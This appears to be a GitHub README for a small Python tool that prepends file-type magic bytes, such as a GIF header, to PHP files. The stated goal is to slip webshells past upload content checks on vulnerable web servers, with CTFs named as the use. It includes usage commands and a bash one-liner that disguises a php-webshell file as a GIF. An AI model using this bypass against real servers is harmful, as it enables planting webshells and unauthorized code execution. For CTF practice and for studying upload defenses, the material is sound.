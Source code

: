 # magic bitten file

## Purpose

The python script `magic_bitten_file.py` lets you insert the magic bytes of a certain file types of your choosing to be inserted at the beginning of a malicious file (such as a webshell). The file then can be uploaded on a vulnerable web server bypassing any file content checks and executed.

## Usage

This python script does not require anything outside the Python Standard Libray. So all you need to do is execute it.

```bash
# create a php file
printf "%s\n" "<?php phpinfo(); ?>" > phpcode.php

# check what this file is detected as by linux file util
file code.php
code.php: PHP script, ASCII text

# let's make this file a gif file
python3 magic_bitten_file.py -f gif code.php

# let's now see what the linux file util detects this file as
file code.php
code.php: GIF image data, version 87a, 16188 x 26736
```

## Alternatives

Instead of using this script you can take any sample file of your choice from the internet or from your local filesystem and append the code to the end of it. But I found this a bit inconvenient when doing CTFs. With this tool the process is just running a python script.

Here's a bash/zsh one liner to make a php file look like a gif file:
```bash
echo -n -e '\x47\x49\x46\x38\x37\x61' | cat - /path/to/php-webshell.php > image.gif
```
